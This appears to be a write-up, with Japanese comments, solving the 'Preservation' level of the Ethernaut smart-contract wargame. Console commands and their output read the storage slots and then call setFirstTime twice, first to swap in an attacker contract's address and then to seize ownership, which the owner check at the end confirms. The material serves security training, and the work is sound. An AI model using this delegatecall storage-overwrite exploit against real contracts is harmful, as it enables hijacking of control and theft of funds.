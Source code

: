 ## Ethernaut-solution

### 16. Preservation


```
>contract.address
'0x697bc131219881bc8a958b2ed3a6523fE9cb155e'
```
```
>await contract.owner()
'0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F'
```
```
>await contract.timeZone1Library() //slot zero 
'0x7Dc17e761933D24F4917EF373F6433d4a62fe3c5'
```
```
>await contract.timeZone2Library() // slot one 
'0xeA0De41EfafA05e2A54d1cD3ec8CE154b1Bb78F1'
```
```
>await web3.eth.getStorageAt(contract.address, 0, console.log)
'0x0000000000000000000000007dc17e761933d24f4917ef373f6433d4a62fe3c5' //matching slot zero 
```
```
>await web3.eth.getStorageAt(contract.address, 1, console.log)
'0x000000000000000000000000ea0de41efafa05e2a54d1cd3ec8ce154b1bb78f1'
```
```
>await web3.eth.getStorageAt(contract.address, 2, console.log)
'0x00000000000000000000000097e982a15fbb1c28f6b8ee971bec15c78b3d263f'
```

//deployしたpreservationAttack.solのContractをcopy 

//pay gas 
```
await contract.setFirstTime("0x6dda42d465Dc1b86938A25fe0f97fCdd830D3332")

//successed to change slot zeroの timeZone1Library address 
{tx: '0x2b6292d89110f2888771cb29fb4f7aaa892c3824bcd24a35d05f4116099b14f5', receipt: {…}, logs: Array(0)}
```

//hack the contract //setFirstTimeの数字はランダム
```
await contract.setFirstTime("86753099")
{tx: '0x1c04fe4c41039f401661ebcdf107c8de88966a61bf692dc8f5c73c1fe1460af2', receipt: {…}, logs: Array(0)}
logs: []
receipt: {blockHash: '0x464fed330b0c9936f6b96add03c090a1863a3dcdcfcd2bc5f1ba30182ee36d94', blockNumber: 10930374, contractAddress: null, cumulativeGasUsed: 2987620, effectiveGasPrice: '0x903e4e82', …}
tx: "0x1c04fe4c41039f401661ebcdf107c8de88966a61bf692dc8f5c73c1fe1460af2"
[[Prototype]]: Object
```

//successed changed owner by myself!!
```
await.contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```